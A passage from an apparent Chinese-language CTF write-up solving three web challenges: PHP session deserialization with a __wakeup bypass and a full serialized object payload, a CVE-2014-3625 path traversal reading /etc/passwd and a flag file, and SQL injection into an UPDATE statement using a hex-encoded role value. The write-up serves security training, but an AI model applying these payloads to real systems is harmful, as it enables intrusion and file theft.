 ``` php
	}
}
class TOPC{
	public $obj;
	public $attr;
	function __wakeup(){
		$this->attr = null;
		$this->obj = null;
	}
	function __destruct(){
		echo $this->attr;
	}
}
```
很明显需要序列化。在index.php里面设置了php的序列化handler是'php_serialize'，而query.php里面没有设置，也就是默认的'php'，所以可以利用session反序列化调用query.php里面的类。
只有TOPC有echo，分析了一下，构造顺序应该是：
> TOPC  >  TOPB  >  TOPA

其中有几个点：
###### 1. __wakeup可以通过改变属性数目大于实际数目绕过
###### 2. 通过建立引用关系使得$this->obj->token和$this->obj->ticket保持相等
###### 3. username和password可以直接取0，0弱等于字符串
试了一下，感觉线上的源码不太一样，会调用login，并且反序列化的时候会先反序列化内层的
构造payload：
> |O:4:"TOPC":3:{s:3:"obj";N;s:4:"attr";O:4:"TOPB":2:{s:3:"obj";N;s:4:"attr";s:84:"O:4:"TOPA":4:{s:5:"token";N;s:6:"ticket";R:2;s:8:"username";i:0;s:8:"password";i:0;}";}}

在index.php设置一下session，再访问query.php就行了
#### spring-css：
google了一下，有一个CVE的洞**[cve-2014-3625](https://github.com/ilmila/springcss-cve-2014-3625)**
链接里面有exp，读一下/etc/passwd，发现：
> flag:x:1000:1000:Linux User,,,:/home/flag:/etc/flag

根据提示再读/etc/flag
> http://218.2.197.232:18015/spring-css/resources/file:/etc/flag

#### 注入越权：
源码有提示：
``` html
<!--
2015.10.16
防越权改造，当uid=0且role=admin时显示管理员页面。
 -->   
```
发现uid可以直接修改，修改role不行，输引号会被mysql_escape_string拦 。
试了一下发现uid输反引号会报错，看了一下大概是update语句，所以可以注入设置role，引号不能用，就用admin的十六进制代替，也就是
> uid=0,role=0x61646d696e

修改后返回原页面，得到flag
